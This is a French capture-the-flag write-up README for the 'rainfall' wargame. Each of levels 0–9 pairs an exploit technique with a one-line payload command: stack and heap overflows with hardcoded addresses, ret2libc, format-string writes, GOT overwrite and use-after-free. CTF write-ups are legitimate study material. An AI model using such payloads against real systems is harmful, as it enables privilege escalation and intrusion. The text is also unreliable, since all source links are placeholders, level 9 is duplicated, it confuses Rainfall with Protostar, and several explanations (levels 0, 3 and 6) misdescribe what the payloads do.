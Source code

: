 # rainfall
## Level 0

**Exploit**: Buffer Overflow simple  
**Commande**: `./level0 423`  
**Explication**: Dans ce cas, l'exploit consiste à profiter d'une vulnérabilité de débordement de tampon. En passant l'argument 423 au programme level0, nous dépassons la taille du tampon prévu, ce qui nous permet d'écraser des données adjacentes en mémoire, y compris l'adresse du pointeur de retour. Cela nous permet de contrôler le flux d'exécution et d'obtenir le contenu du fichier .pass de l'utilisateur level1.

**Sources**:
- Aucune

---

## Level 1

**Exploit**: Buffer Overflow avec redirection de flux d'exécution  
**Commande**: `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1`  
**Explication**: Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l'adresse 0x08 04 84 44, qui est l'adresse de la fonction run. Cette adresse sera utilisée comme nouvelle adresse de retour, ce qui nous permettra de rediriger l'exécution vers la fonction run.

**Sources**:

- [Détails sur Buffer Overflow avec redirection](lien_vers_la_source)
- [Vidéo YouTube sur Buffer Overflow](lien_vers_la_source)

---

## Level 2

**Exploit**: Return-to-libc (ret2libc)  
**Commande**: `python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3`  
**Explication**: Dans cet exploit, nous utilisons la technique ret2libc pour contourner les protections de sécurité. Nous utilisons les adresses des fonctions system, exit et /bin/sh de la bibliothèque libc pour exécuter une coquille système avec les privilèges de l'utilisateur.

**Sources**:

- [Guide pratique sur ret2libc](lien_vers_la_source)
- [Exploitation de Buffer Overflow avec ret2libc](lien_vers_la_source)

---

## Level 3

**Exploit**: Attaque de chaîne de format  
**Commande**: `python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
**Explication**: L'exploit ici repose sur une vulnérabilité de chaîne de format. Nous utilisons la spécification %4$n pour écrire le nombre de caractères déjà imprimés dans la pile à l'adresse mémoire pointée par le quatrième argument sur la pile (qui est l'adresse de retour). Cela nous permet de contrôler le flux d'exécution.

**Sources**:

- [Guide sur l'attaque de chaîne de format](lien_vers_la_source)
- [Exploitation de chaînes de format](lien_vers_la_source)

---

## Level 4

**Exploit**: Format String avec écriture arbitraire  
**Commande**: `python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4`  
**Explication**: Dans cet exploit, nous utilisons la vulnérabilité de chaîne de format pour écrire une valeur arbitraire dans la mémoire. Nous écrasons l'adresse de retour avec l'adresse de la fonction info pour afficher le contenu de la mémoire.

**Sources**:

- [Exploitation de chaînes de format](lien_vers_la_source)
- [Guide sur ret2libc](lien_vers_la_source)

...

## Level 5

**Exploit**: GOT Overwrite  
**Commande**: `python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5`  
**Explication**: Dans cet exploit, nous écrasons une entrée dans la table GOT pour rediriger l'exécution vers notre propre code. Nous écrasons l'adresse de la fonction o dans la table GOT avec l'adresse de la fonction system.

**Sources**:

- [Explication sur GOT Overwrite](lien_vers_la_source)
- [Guide sur Buffer Overflow](lien_vers_la_source)

---

## Level 6

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')`  
**Explication**: Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction m(). Ensuite, nous exécutons un shellcode pour obtenir un shell interactif.

**Sources**:

- [Détails sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Level 7

**Exploit**: Heap Overflow  
**Commande**: `"$(python -c "print 'AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité de débordement du tas. Nous écrasons les métadonnées du tas pour rediriger l'exécution vers la fonction m(). Cela nous permet d'exécuter du code arbitraire.

**Sources**:

- [Explication sur Heap Overflow](lien_vers_la_source)
- [Guide sur Heap Overflow](lien_vers_la_source)

---

## Level 8

**Exploit**: Use-After-Free  
**Commande**: `auth a; reset; service; service; service; login`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité Use-After-Free. Nous libérons un objet, puis nous l'utilisons à nouveau pour exécuter un shell interactif. Cela se produit car l'objet libéré n'est pas correctement désalloué.

**Sources**:

- [Explication sur Use-After-Free](lien_vers_la_source)
- [Guide sur Use-After-Free](lien_vers_la_source)

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.

**Sources**:

- [Explication sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.

**Sources**:

- [Explication sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Comment utiliser ce dépôt

1. Clonez ce dépôt sur votre machine locale.
2. Naviguez dans le répertoire du niveau que vous souhaitez étudier.
3. Consultez le fichier `README.md` pour les détails de l'exploit et les commandes utilisées.
4. Exécutez les commandes sur votre système Protostar pour observer les résultats.

---

Ce write-up a été préparé avec soin par [VotreNom](lien_vers_votre_profil_GitHub).

**Disclaimer**: Ces exploits ont été conçus à des fins éducatives et d'apprentissage. Ne les utilisez pas à des fins malveillantes.
